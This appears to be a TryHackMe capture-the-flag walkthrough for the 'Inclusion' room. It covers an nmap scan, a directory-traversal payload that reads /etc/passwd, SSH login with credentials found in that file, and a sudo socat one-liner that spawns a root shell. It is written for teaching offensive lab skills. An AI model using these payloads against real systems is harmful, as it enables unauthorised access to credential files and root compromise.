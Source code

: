 # TryHackMe | [Inclusion](https://tryhackme.com/room/inclusion)

## What is the user flag?

First, we will enumerate our target.

```bash
❯ nmap -sV 10.10.85.254
Nmap scan report for 10.10.85.254
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.98 seconds
```

As we can see, two ports are open on our target machine, port 22 for ssh and port 80 with http. Let's see what we have on port 80.

![Blog](/images/blog.png)

That's a pretty cute blog right there. As we are interested in LFI, let's view its details.

![LFI](/images/lfi.png)

Um...We have this very well presented blog about LFI attacks. It seems to include details about Directory Traversal along with its example. Lets give it a try, shall we?

```
http://10.10.85.254/article?name=../../../../etc/passwd
```

![passwd](/images/passwd.png)

Well well well, what do we have here ;)

A commented out user:passwd pair is present. I wonder where it could be used. SSH maybe?

```bash
falconfeast@inclusion:~$ ls
articles user.txt
falconfeast@inclusion:~$ cat user.txt
[REDACTED]
```

## What is the root flag?

Now its time to escalate priviledges. Lets see what we can run as root.

```bash
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
(root) NOPASSWD: /usr/bin/socat
```

I think [GTFOBins](https://gtfobins.github.io/gtfobins/socat/) may have something that can help us.

```bash
sudo socat stdin exec:/bin/sh
```

Lets plug that into the terminal.

```bash
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
cd /root
ls
root.txt
cat root.txt
[REDACTED]
```
